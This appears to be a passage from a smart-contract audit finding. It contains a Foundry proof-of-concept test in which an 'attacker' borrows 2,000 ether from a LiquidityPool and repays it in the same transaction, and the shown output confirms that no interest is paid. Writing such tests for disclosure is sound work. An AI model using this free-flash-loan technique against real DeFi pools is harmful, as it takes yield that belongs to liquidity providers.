 ```solidity
        MockERC20 poolToken = new MockERC20("WETH Token", "WETH", 18);
        uint poolCapacity = 10_000 * 10 ** poolToken.decimals();

        LiquidityPool liquidityPool = new LiquidityPool(
            insurancePool,
            marginAccountStorage,
            baseToken,
            poolToken,
            "Liquidity Pool Token",
            "LPT",
            poolCapacity
        );
        //
        // 1. LP provide some tokens to the pool
        deal(address(poolToken), address(this), 20_000 ether);
        poolToken.approve(address(liquidityPool), 20_000 ether);
        liquidityPool.provide(9_000 ether);
        //
        // 2. Attacker obtains a borrow and repay in the same tx without pay any interest (flash loan for free)
        uint marginAccountID = 2;
        console.log("\nBorrow of 2_000 ether to marginAccountID=2");
        console.log("Total borrows before attack:  ", liquidityPool.totalBorrows());
        console.log("Total marginAccountID debt:   ", liquidityPool.getDebtWithAccruedInterest(marginAccountID));
        liquidityPool.borrow(marginAccountID, 2_000 ether);
        console.log("Total current borrows:        ", liquidityPool.totalBorrows());
        console.log("Total marginAccountID debt:   ", liquidityPool.getDebtWithAccruedInterest(marginAccountID));
        liquidityPool.repay(marginAccountID, 2_000 ether);
        assertEq(liquidityPool.portfolioIdToDebt(marginAccountID), 0);
        assertEq(liquidityPool.totalInterestSnapshot(), 0);
        console.log("Total borrows after repayment:", liquidityPool.totalBorrows());
        console.log("Total marginAccountID debt:   ", liquidityPool.getDebtWithAccruedInterest(marginAccountID));
        console.log("Total interest paid:          ", liquidityPool.totalInterestSnapshot());
    }
}
```

Output:

```bash
Borrow of 2_000 ether to marginAccountID=2
  Total borrows before attack:   0
  Total marginAccountID debt:    0
  Total current borrows:         2000000000000000000000
  Total marginAccountID debt:    2000000000000000000000
  Total borrows after repayment: 0
  Total marginAccountID debt:    0
  Total interest paid:           0
```
